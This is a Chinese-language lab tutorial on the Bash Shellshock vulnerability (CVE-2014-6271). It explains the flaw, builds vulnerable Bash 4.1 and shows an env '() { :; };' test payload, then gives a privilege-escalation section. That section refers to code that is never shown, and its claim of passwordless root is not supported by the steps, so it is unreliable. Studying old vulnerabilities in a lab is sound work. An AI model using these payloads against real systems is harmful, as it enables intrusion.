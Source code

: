﻿# Bash Shellshock 漏洞分析与复现

## 一、漏洞介绍
* 2014年09月25日，CVE官方发布了漏洞CVE-2014-6271
* Shellshock利用了Bash在导入环境变量函数时候的漏洞，启动Bash的时候，它不但会导入这个函数，而且也会把函数定义后面的命令执行。
* 在有些CGI脚本的设计中，数据是通过环境变量来传递的，这样就给了数据提供者利用Shellshock漏洞的机会。
* 简单来说就是由于服务器的cgi脚本调用了bash命令，由于bash版本过低，攻击者把有害数据写入环境变量，传到服务器端，触发服务器运行Bash脚本，完成攻击。

## 二、漏洞原理

* Bash 4.3以及之前的版本在处理某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行任意的shell命令,甚至完全控制目标系统，这是典型的数据和代码没有进行正确区分导致的漏洞

* 受到该漏洞影响的bash使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令

## 三、漏洞复现

### 1、下载配置Bash 4.1
* 命令行 ：
* wget http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz(下载)
* tar xf bash-4.1.tar.gz（解压）
* cd bash-4.1（进入目录）
* ./configure
* make & make install（安装）
* bash -version

### 2、检测漏洞是否存在
* 命令行：
* env x=’() { :; };echo vulnerable’ bash -c “echo this is a test”

* 可以看到，终端中除了输出this is a test，而且同时输出了 Vulnerable，证明该漏洞存在

## 四、漏洞利用，root权限提取
* 编写以下代码，编译运行
* 命令行：sudo ln -sf /bin/bash /bin/sh：使/bin/sh指向/bin/bash
* 命令行：export foo="() { :; }; bash"
* 命令行：sudo su

* 可以看到，当输入sudo su后，命令行在不需要输入密码时权限变为root，实现了root权限的提权